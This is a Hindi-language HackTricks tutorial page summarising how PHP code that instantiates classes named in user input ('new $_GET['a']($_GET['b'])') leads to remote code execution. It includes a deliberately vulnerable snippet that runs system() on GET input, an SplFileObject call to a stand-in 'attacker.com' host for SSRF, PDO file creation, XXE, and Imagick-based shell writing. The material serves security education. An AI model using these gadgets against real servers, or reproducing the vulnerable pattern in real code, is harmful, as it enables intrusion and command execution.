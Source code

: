 # PHP - RCE abusing object creation: new $\_GET\["a"]\($\_GET\["b"])

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

यह मूल रूप से [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) का सारांश है।

## परिचय

नई मनमानी वस्तुओं का निर्माण, जैसे `new $_GET["a"]($_GET["a"])`, रिमोट कोड निष्पादन (RCE) की ओर ले जा सकता है, जैसा कि एक [**writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) में विस्तृत किया गया है। यह दस्तावेज़ RCE प्राप्त करने के लिए विभिन्न रणनीतियों को उजागर करता है।

## कस्टम क्लासेस या ऑटोलोडिंग के माध्यम से RCE

सिंटैक्स `new $a($b)` का उपयोग एक ऑब्जेक्ट को इंस्टेंटिएट करने के लिए किया जाता है जहाँ **`$a`** क्लास नाम का प्रतिनिधित्व करता है और **`$b`** कंस्ट्रक्टर को पास किया गया पहला तर्क है। ये वेरिएबल्स उपयोगकर्ता इनपुट जैसे GET/POST से प्राप्त किए जा सकते हैं, जहाँ वे स्ट्रिंग या एरे हो सकते हैं, या JSON से, जहाँ वे अन्य प्रकार के रूप में प्रस्तुत हो सकते हैं।

नीचे दिए गए कोड स्निपेट पर विचार करें:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
इस उदाहरण में, `$a` को `App` या `App2` पर सेट करना और `$b` को एक सिस्टम कमांड (जैसे, `uname -a`) पर सेट करना उस कमांड के निष्पादन का परिणाम देता है।

**ऑटोलोडिंग फ़ंक्शन** का लाभ उठाया जा सकता है यदि ऐसी कोई कक्षाएँ सीधे सुलभ नहीं हैं। ये फ़ंक्शन आवश्यकतानुसार फ़ाइलों से कक्षाओं को स्वचालित रूप से लोड करते हैं और इन्हें `spl_autoload_register` या `__autoload` का उपयोग करके परिभाषित किया जाता है:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
PHP संस्करणों के साथ ऑटोलोडिंग का व्यवहार भिन्न होता है, जो विभिन्न RCE संभावनाएँ प्रदान करता है।

## अंतर्निहित कक्षाओं के माध्यम से RCE

कस्टम कक्षाओं या ऑटोलोडर्स की कमी में, **अंतर्निहित PHP कक्षाएँ** RCE के लिए पर्याप्त हो सकती हैं। इन कक्षाओं की संख्या PHP संस्करण और एक्सटेंशन के आधार पर 100 से 200 के बीच होती है। इन्हें `get_declared_classes()` का उपयोग करके सूचीबद्ध किया जा सकता है।

रिफ्लेक्शन API के माध्यम से रुचि के कंस्ट्रक्टर्स की पहचान की जा सकती है, जैसा कि निम्नलिखित उदाहरण और लिंक [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF) में दिखाया गया है।

**विशिष्ट विधियों के माध्यम से RCE में शामिल हैं:**

### **SSRF + Phar Deserialization**

`SplFileObject` कक्षा अपने कंस्ट्रक्टर के माध्यम से SSRF को सक्षम बनाती है, जो किसी भी URL से कनेक्शन की अनुमति देती है:
```php
new SplFileObject('http://attacker.com/');
```
SSRF पुराने PHP संस्करणों में 8.0 से पहले deserialization हमलों का कारण बन सकता है, जो Phar प्रोटोकॉल का उपयोग करता है।

### **PDOs का शोषण करना**

PDO क्लास कंस्ट्रक्टर DSN स्ट्रिंग्स के माध्यम से डेटाबेस से कनेक्शन की अनुमति देता है, जो फ़ाइल निर्माण या अन्य इंटरैक्शन को सक्षम कर सकता है:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

PHP के 5.3.22 और 5.4.12 तक के संस्करण `SoapClient` और `SimpleXMLElement` कंस्ट्रक्टर्स के माध्यम से XXE हमलों के प्रति संवेदनशील थे, जो libxml2 के संस्करण पर निर्भर करते हैं।

## RCE via Imagick Extension

एक **प्रोजेक्ट की निर्भरताओं** के विश्लेषण में, यह पाया गया कि **Imagick** का उपयोग **कमांड निष्पादन** के लिए नए ऑब्जेक्ट्स को इंस्टेंटिएट करके किया जा सकता है। यह कमजोरियों का शोषण करने का एक अवसर प्रस्तुत करता है।

### VID parser

फाइल सिस्टम में किसी भी निर्दिष्ट पथ पर सामग्री लिखने की VID parser क्षमता की पहचान की गई। इससे एक वेब-एक्सेसिबल डायरेक्टरी में PHP शेल रखने की संभावना बनती है, जिससे Remote Code Execution (RCE) प्राप्त होता है।

#### VID Parser + File Upload

यह noted किया गया है कि PHP अस्थायी रूप से अपलोड की गई फ़ाइलों को `/tmp/phpXXXXXX` में संग्रहीत करता है। Imagick में VID parser, **msl** प्रोटोकॉल का उपयोग करते हुए, फ़ाइल पथ में वाइल्डकार्ड को संभाल सकता है, जिससे अस्थायी फ़ाइल को चुने हुए स्थान पर स्थानांतरित करना संभव होता है। यह विधि फाइल सिस्टम के भीतर मनमाने फ़ाइल लेखन को प्राप्त करने के लिए एक अतिरिक्त दृष्टिकोण प्रदान करती है।

### PHP Crash + Brute Force

[**मूल लेख**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) में वर्णित एक विधि में उन फ़ाइलों को अपलोड करना शामिल है जो हटाने से पहले सर्वर क्रैश को ट्रिगर करती हैं। अस्थायी फ़ाइल के नाम को ब्रूट-फोर्स करके, Imagick के लिए मनमाना PHP कोड निष्पादित करना संभव हो जाता है। हालाँकि, यह तकनीक केवल ImageMagick के एक पुराने संस्करण में प्रभावी पाई गई।

## References

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
